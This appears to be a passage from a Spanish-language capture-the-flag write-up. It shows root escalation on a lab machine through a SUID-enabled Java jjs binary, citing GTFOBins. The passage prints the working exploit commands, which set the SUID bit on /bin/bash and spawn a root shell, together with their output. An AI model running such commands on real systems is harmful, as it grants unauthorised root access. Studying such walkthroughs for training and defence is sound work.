 Aqui vemos que tenemos privilegios SUID sobre el binario 
```bash
 jjs 
```
 de java. Buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/jjs/#suid)
como escalar el privilegio con jjs. 

```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod 4755 /bin/bash').waitFor()" | jjs
bash -p
whoami
#Output
root
```

Ya podemos leer el **root.txt**

